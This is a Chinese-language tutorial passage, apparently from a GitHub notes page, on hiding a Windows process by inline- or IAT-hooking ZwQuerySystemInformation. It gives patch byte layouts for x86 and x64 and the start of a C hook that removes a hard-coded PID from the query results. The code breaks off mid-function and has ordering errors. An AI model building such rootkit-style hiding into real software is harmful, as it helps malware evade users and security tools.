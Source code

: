 ## 3.进程隐藏

### 实现原理

通过HOOKAPI ZwQuerySystemInformation可以实现进程隐藏。这是因为EnumProcess或者
CreateToolHelp32Snapshot遍历进程，都是通过ZwQuerySystemInformation函数来检索系统进程信息的。

### 实现方法

内联HOOK或者IAT HOOK

 	1. 获取ZwQuerySystemInformation函数地。
 	2. 根据32和64位版本,计算偏移,修改函数前xx字节数据
 	3. 先修改页属性,再修好内存数据,恢复页属性
 	4. 在My_ZwQuerySystemInformation函数中判断是否检索要隐藏进程，若是隐藏进程，遍历检索结果，剔除隐藏进程的信息，将修改数据返回


​	*x86系统	修改前5字节*
---------------------------------------------------
​	*HOOK前:	0x41000  E8 007f00000  call OpenProcess*
​	*HOOK后: 0x41000  E9 000410000  call MyOpenProcess*
​	*填充地址计算公式: 跳转偏移 = 目标地址 - 指令所在 - 5*

---------------------------------------------------

​     *x64系统 修改前12字节*

---------------------------------------------------

​     *mov rax,目标地址	0x48 0xb8 00000000*

*跳转方式1:	push rax	0x50*
		   *ret		   0xC3*
*跳转方式2:  jmp rax		0xff  0xe0*

---------------------------------------------------
```c#
#include <Windows.h>
#include <winternl.h>

BYTE g_OldData32[5] = { 0 };
BYTE g_OldData64[12] = { 0 };
pfnZwQuerySystemInformation fnZwQuerySystemInformation = NULL;

typedef NTSTATUS (WINAPI* pfnZwQuerySystemInformation)(
	SYSTEM_INFORMATION_CLASS SystemInformationClass,
	PVOID SystemInformation,
	ULONG SystemInformationLength,
	PULONG ReturnLength);

NTSTATUS WINAPI My_ZwQuerySystemInformation(
	SYSTEM_INFORMATION_CLASS SystemInformationClass,
	PVOID SystemInformation,
	ULONG SystemInformationLength,
	PULONG ReturnLength)
{

DWORD dwHidePid = 1124;	//1.要隐藏的进程ID
UnHook();
// 调用原函数
NTSTATUS status = fnZwQuerySystemInformation(SystemInformationClass, SystemInformation,
	SystemInformationLength, ReturnLength);
// 判断
if (NT_SUCCESS(status) && 5==SystemInformationClass)
{
	PSYSTEM_PROCESS_INFORMATION pCur = (PSYSTEM_PROCESS_INFORMATION)SystemInformation;
```